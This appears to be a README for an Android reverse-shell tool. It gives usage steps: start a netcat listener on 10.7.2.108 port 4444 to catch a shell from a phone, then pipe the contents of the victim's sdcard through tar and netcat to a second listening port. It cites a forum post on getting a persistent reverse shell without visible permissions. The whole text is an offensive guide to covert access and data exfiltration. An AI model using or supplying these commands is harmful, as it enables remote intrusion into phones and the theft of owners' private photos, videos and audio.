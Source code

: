 # How to use it simple way

## Get reverse shell
In server (10.7.2.108):

```bash
netcat -nlvp 4444
```

Now you will have the reverse shell.

## Download media files
Firstly you open a listening port for the tar file (inside a safe folder which will hold all info):

```bash

nc -l -p 7000 | tar -x
```

In the reverse shell you do the following to start the process of transfering all files:

```bash
cd sdcard
tar -c * | nc 10.7.2.108 7000
```

### Disclaimer

It uses new manifest permission request method (Video, images and audio separated)

Ref: [Mobile-Hacker Forum](https://www.mobile-hacker.com/2023/09/27/get-persistent-reverse-shell-from-android-app-without-visible-permissions-to-make-device-unusable/)